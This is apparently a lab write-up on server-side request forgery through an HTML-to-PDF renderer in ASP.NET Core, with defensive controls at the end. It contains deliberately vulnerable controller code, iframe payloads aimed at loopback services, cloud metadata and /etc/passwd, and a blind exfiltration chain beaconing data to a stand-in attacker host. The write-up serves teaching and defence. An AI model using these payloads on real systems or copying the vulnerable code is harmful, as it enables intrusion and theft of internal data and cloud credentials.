


SSRF in a Server-Side HTML-to-PDF Renderer (HiQPdf on ASP.NET Core)¶
TL;DR¶
A web app that accepts HTML from a user and renders it to a PDF server-side will happily fetch every external resource the HTML references, from the server's own network position. A single injected <iframe> or <img> tag is enough to make the server reach loopback services, internal hosts, or cloud metadata endpoints, and return the result inside the generated PDF. This is a class-level architectural flaw, not a library-specific bug.
Lab Setup¶
- OS: Parrot OS (Debian 12 / Bookworm base)
- Runtime: .NET 8.0 SDK (
dotnet-install.sh --channel 8.0) - Framework: ASP.NET Core MVC (
dotnet new mvc -n pdfmaker) - PDF engine: HiQPdf.Next (
HiQPdf.Next.Core.Linux+HiQPdf.Next.HtmlToPdf.Linux, v18.81.0) - Native deps:
libgdiplus,libx11-6,libxcb1,libxrender1,libfontconfig1
Two services on the same host:
| Service | Bind | Purpose |
|---|---|---|
pdfmaker (ASP.NET Core) |
0.0.0.0:8080 |
Vulnerable app. Takes HTML, returns PDF. |
Flag server (python3 -m http.server) |
127.0.0.1:8000 |
Simulated internal-only service. Not reachable from the network, only from localhost. |
The flag is served by a separate loopback-only HTTP server so it clearly represents an internal resource the attacker cannot reach directly.

The Vulnerable Code¶
Controllers/HomeController.cs:
using Microsoft.AspNetCore.Mvc;
using HiQPdf.Next;
namespace pdfmaker.Controllers;
public class HomeController : Controller
{
[HttpGet]
public IActionResult Index()
{
return View();
}
[HttpPost]
public IActionResult Convert([FromForm] string html)
{
HtmlToPdf htmlToPdfConverter = new HtmlToPdf();
byte[] pdfBuffer = htmlToPdfConverter.ConvertHtmlToMemory(html, null);
return File(pdfBuffer, "application/pdf", "mypdf.pdf");
}
}
Three lines. That is the whole bug. html is attacker-controlled, and ConvertHtmlToMemory hands it to a Chromium-backed renderer. The shipped runtime directory (hiqpdf_runtimes/linux-x64/native/) contains libcef.so, chrome-sandbox, and hiqpdf_loadhtml — a full embedded Chromium engine. The renderer walks the DOM, fetches every referenced resource from the server's network namespace, and paints the result into the PDF.
Why This Works¶
The renderer is a server-side fetcher with browser-grade capabilities:
- It parses and renders HTML, CSS, and JavaScript.
- It resolves relative and absolute URLs, including
http://,https://, andfile://. - It runs JavaScript inside an embedded Chromium engine.
- It runs as the ASP.NET Core process, inheriting that process's network position and credentials.
When the submitted HTML contains <iframe src="http://127.0.0.1:8000/flag.txt">, the renderer issues the request itself, from localhost. The loopback-only flag server answers, because the request genuinely originates from localhost. The response is painted into the PDF and returned to the caller.
Full-Read Exploitation¶
Because the generated PDF is returned to the caller, the entire response body of any resource the server can reach is readable directly inside the PDF. An <iframe> or <img> pointing at an internal resource renders that resource's content into the output.

Reachable from the renderer's position:
http://127.0.0.1:<port>/...— loopback-only serviceshttp://169.254.169.254/...— cloud metadata endpointsfile:///etc/passwd— local filesystem, if the scheme is permittedhttp://<internal-host>/...— anything on the server's private network
Blind Exploitation¶
Even without reading the PDF, exfiltration is possible because the renderer executes JavaScript. The chain:
- Attacker hosts an HTML page with inline JS on a server they control.
- The vulnerable app is coerced into loading that page via an injected
<iframe src="http://attacker/exploit.html">. - The renderer executes the JS.
- The JS makes a synchronous XHR to the internal resource. Synchrony matters — an async request returns before the response arrives and the renderer moves on.
- The JS encodes the response (base64) and beacons it to an attacker-controlled listener.
The vulnerable server makes two outbound requests: one to fetch the attacker's payload, one to deliver the loot. The attacker never sees the PDF.
The Generalization¶
This is not a HiQPdf bug. It is the architecture of every HTML-to-PDF renderer, screenshot service, link-preview generator, and mail templating engine that resolves references server-side:
- wkhtmltopdf — CVE-2022-35583, CVSS 9.8
- Pandoc — CVE-2025-51591, actively exploited against EC2 IMDS
- Puppeteer / Playwright, WeasyPrint, PrinceXML, IronPDF, and HiQPdf
The library changes the flavor of the bug (does it execute JS? follow redirects? allow file://?), not its class. The invariant is: server-side resolver + attacker-controlled content = SSRF.
Defensive Controls¶
Sanitizing HTML is not a fix. The fix is starving the resolver:
- Egress allowlist — only explicitly permitted hosts and schemes can be reached from the renderer. Re-apply the check on every redirect hop, and resolve the hostname yourself rather than trusting the name.
- Network isolation — run the renderer in a namespace or container with no route to loopback, RFC1918, or
169.254.169.254. Block link-local and private ranges explicitly at that gateway, including IPv6. - Disable external resource loading in the library, if the use case permits.
- Disable JavaScript execution in the renderer.
- Scheme allowlist — typically only
httpandhttps; dropfile://,gopher://,dict://,ftp://. - Run as an unprivileged user in a filesystem sandbox, so
file://reads do not reach/etc/passwd. - Enforce IMDSv2 on AWS —
HttpTokens=required,HttpPutResponseHopLimit=1.
References¶
- CVE-2022-35583 — wkhtmltopdf SSRF via iframe injection, CVSS 9.8
- CVE-2025-51591 — Pandoc SSRF against EC2 IMDS, disclosed Sep 2025